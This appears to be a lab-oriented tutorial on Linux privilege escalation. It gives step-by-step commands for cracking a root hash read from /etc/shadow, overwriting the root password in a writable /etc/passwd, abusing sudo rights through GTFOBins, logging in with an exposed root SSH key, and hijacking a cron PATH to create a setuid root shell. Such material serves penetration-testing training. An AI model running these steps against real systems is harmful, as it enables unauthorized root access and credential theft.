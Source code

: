 # 🔥 Linux Privilege Escalation

In this we are going to see different type of methods for Linux Privilege Escalation for this you have to get a ssh or reverse connection to a linux machine

You can watch tutorial on my youtube or set up a victim linux machine and get a ssh connection to your attacker machine.

### (Method #1)

So after setting up the connection check the shadow file is accessible by the normal user or not,in this it can be accesses so we will copy the hash of the root user and save in a txt file to run it with john the ripper to bruteforce for the password and login with the root user.



<figure><img src=".gitbook/assets/2.png" alt=""><figcaption></figcaption></figure>

```bash
// john --wordlist=/usr/share/wordlists/rockyou.txt hash.txt
```

<figure><img src=".gitbook/assets/3.png" alt=""><figcaption></figcaption></figure>

Here you will get the root password and you can login with su root and password.

### (Method #2)

In this method we will first check the permissions of the passwd file&#x20;

<figure><img src=".gitbook/assets/new.png" alt=""><figcaption></figcaption></figure>

then if is accesssible by the normal user we will generate the a password and replace the root password of the file with ours and then login in the root user.

<figure><img src=".gitbook/assets/5.png" alt=""><figcaption></figcaption></figure>

### (Method #3)

In this method we will first type **sudo -l** to check the available sudo commands which can be run without the password

<figure><img src=".gitbook/assets/6.png" alt=""><figcaption></figcaption></figure>

then go to [https://gtfobins.github.io/](https://gtfobins.github.io/) and search for any of the commands in this i will be searching for the awk command.

<figure><img src=".gitbook/assets/7.png" alt=""><figcaption></figcaption></figure>

and then copy the sudo one and paste it in terminal and you will get the root shell.

<figure><img src=".gitbook/assets/8.png" alt=""><figcaption></figcaption></figure>

### (Method #4)

Look for hidden files & directories in the system root:

`ls -la /`

Note that there appears to be a hidden directory called .ssh. View the contents of the directory:

`ls -l /.ssh`

Note that there is a world-readable file called root\_key. Further inspection of this file should indicate it is a private SSH key. The name of the file suggests it is for the root user.

Copy the key over to your Kali box (it's easier to just view the contents of the root\_key file and copy/paste the key) and give it the correct permissions, otherwise your SSH client will refuse to use it:

`chmod 600 root_key`

Use the key to login to the Debian VM as the root account (note that due to the age of the box, some additional settings are required when using SSH):

`ssh -i root_key -oPubkeyAcceptedKeyTypes=+ssh-rsa -oHostKeyAlgorithms=+ssh-rsa root@MACHINE_IP`

### (Method #5)

View the contents of the system-wide crontab:\


`cat /etc/crontab`

Note that the PATH variable starts with /home/user which is our user's home directory.

Create a file called overwrite.sh in your home directory with the following contents:

\#!/bin/bash\
\
cp /bin/bash /tmp/rootbash\
chmod +xs /tmp/rootbash

Make sure that the file is executable:

`chmod +x /home/user/overwrite.sh`

Wait for the cron job to run (should not take longer than a minute). Run the /tmp/rootbash command with -p to gain a shell running with root privileges:

`/tmp/rootbash -p`

Remember to remove the modified code, remove the /tmp/rootbash executable and exit out of the elevated user.

`rm /tmp/rootbash`\
`exit`



